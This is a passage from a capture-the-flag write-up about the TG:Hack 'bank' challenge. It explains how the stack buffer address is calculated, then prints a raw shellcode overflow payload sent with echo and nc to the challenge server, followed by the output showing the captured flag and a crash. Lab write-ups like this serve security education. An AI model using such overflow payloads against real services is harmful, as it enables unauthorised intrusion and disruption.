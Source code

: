 ... then we know that the stack starts at `0xFFFF`, and we can calculate the
expected value for our buffer, which is at  `0xFF7F` by looking at the stack
usage of each function until the `get_account_no` function.

```
 echo -en "balance\n\x31\xc0\xb4\xee\x8e\xd8\x66\x6a\x00\x66\x6a\x00\xb8\x0f\x10\xff\xe0\xf4\xf4\xf4\xf4\xf4\xf4\xf4\x7F\xff\x00\x00\n" | nc bank.tghack.no 5432
     kvm.c:32  - KVM version check: 12
 ######   ########  #### ##    ##  ######    #######  ######## ########  ######
##    ##  ##     ##  ##  ###   ## ##    ##  ##     ##    ##       ##    ##    ##
##        ##     ##  ##  ####  ## ##        ##     ##    ##       ##    ##
##   #### ########   ##  ## ## ## ##   #### ##     ##    ##       ##     ######
##    ##  ##   ##    ##  ##  #### ##    ##  ##     ##    ##       ##          ##
##    ##  ##    ##   ##  ##   ### ##    ##  ##     ##    ##       ##    ##    ##
 ######   ##     ## #### ##    ##  ######    #######     ##       ##     ######
Central bank mainframe system v1.3.3.7
CMD> Enter account no: TG19{bank_goblings_heisted}
KVM_EXIT_INTERNAL_ERROR: suberror = 0x1
```

And we got the flag! We also crashed the bank application,
but I'm sure that's going to sort itself out soon enough :)
